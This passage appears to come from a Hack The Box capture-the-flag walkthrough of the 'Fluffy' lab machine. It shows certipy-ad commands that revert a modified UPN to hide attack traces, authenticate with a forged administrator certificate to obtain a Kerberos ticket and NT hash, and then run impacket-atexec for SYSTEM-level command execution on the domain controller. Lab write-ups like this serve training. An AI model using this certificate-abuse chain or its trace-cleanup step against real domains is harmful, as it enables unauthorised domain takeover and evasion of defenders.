 As a final step in this stage, it's good practice to revert the changes made to the `ca_svc` account to avoid leaving traces of the attack. We change the UPN back to its original value.

```bash
certipy-ad account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' 'update'
```
![](/assets/images/htb-writeup-fluffy/fluffy39.png)

With the `administrator.pfx` file, we can now authenticate as the domain administrator. We use `certipy-ad` again, this time with the `auth` action to use the certificate. This will provide us with a Kerberos ticket (TGT) and the NT hash for the administrator account.

```bash
certipy-ad auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
```

![](/assets/images/htb-writeup-fluffy/fluffy40.png)

Now that we have full domain admin privileges, we can execute commands on the domain controller. A great tool for this is `impacket-atexec`. Before running it, we ensure our system clock is synchronized with the DC to avoid any Kerberos-related time-skew errors. We use the Kerberos ticket we obtained in the previous step to authenticate.

```bash
sudo ntpdate 10.10.11.69
impacket-atexec fluffy.htb/administrator@dc01.fluffy.htb -k -no-pass whoami
```

The `whoami` command returns `nt authority\system`, confirming we have the highest possible privileges on the machine.

![](/assets/images/htb-writeup-fluffy/fluffy41.png)